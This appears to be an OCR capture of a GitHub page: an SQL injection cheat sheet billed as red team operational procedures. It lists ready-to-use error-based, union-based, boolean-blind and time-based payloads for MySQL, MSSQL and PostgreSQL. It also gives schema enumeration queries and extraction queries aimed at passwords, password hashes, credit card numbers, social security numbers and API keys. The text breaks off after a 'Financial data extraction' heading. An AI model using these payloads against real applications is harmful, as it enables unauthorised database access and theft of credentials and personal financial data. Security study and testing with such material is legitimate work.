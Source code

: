 ```bash
' AND 1=CAST((SELECT version()) AS INT) --

-- Union-Based SQLi
' ORDER BY 1--     -- Column count enumeration
' UNION SELECT 1,2,3--     -- Visible column identification
' UNION SELECT @@version, database(), user()--     -- System information
BLIND SQL INJECTION
sql
-- Boolean-Based Blind SQLi
' AND 1=1 --     -- True condition
' AND 1=2 --     -- False condition
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a' --

-- Time-Based Blind SQLi  
' AND SLEEP(5) --     -- MySQL
' ; WAITFOR DELAY '0:0:5' --     -- MSSQL
' AND pg_sleep(5) --     -- PostgreSQL
DATABASE ENUMRATION & DATA EXTRACTION
sql
-- Database Structure Enumeration
' UNION SELECT table_name, table_schema FROM information_schema.tables --
' UNION SELECT column_name, data_type FROM information_schema.columns WHERE table_name='users' --

-- Data Extraction
' UNION SELECT username, password FROM users --
' UNION SELECT credit_card, social_security FROM customers --
' UNION SELECT email, api_key FROM administrators --
🛠️ RED TEAM OPERATIONAL PROCEDURES
RECONNAISSANCE PHASE
Parameter analysis in search fields, login forms, and filters

Identification of database-driven functionality

Error message analysis for database technology identification

Input vector mapping across GET, POST, Cookie, and Header parameters

EXPLOITATION PHASE
Initial Detection & Verification

sql
-- Test for SQL injection vulnerabilities
' OR 1=1 --
'; SELECT SLEEP(5) --
Database Fingerprinting

sql
-- Identify database technology and version
' UNION SELECT @@version, version() --
' AND @@version LIKE '%MySQL%' --
Database Enumeration

sql
-- Extract database structure
' UNION SELECT table_name, table_schema FROM information_schema.tables --
' UNION SELECT column_name, data_type FROM information_schema.columns WHERE table_name='users' --
Sensitive Data Extraction

sql
-- Credential harvesting
' UNION SELECT username, password_hash FROM users --

-- Financial data extraction
```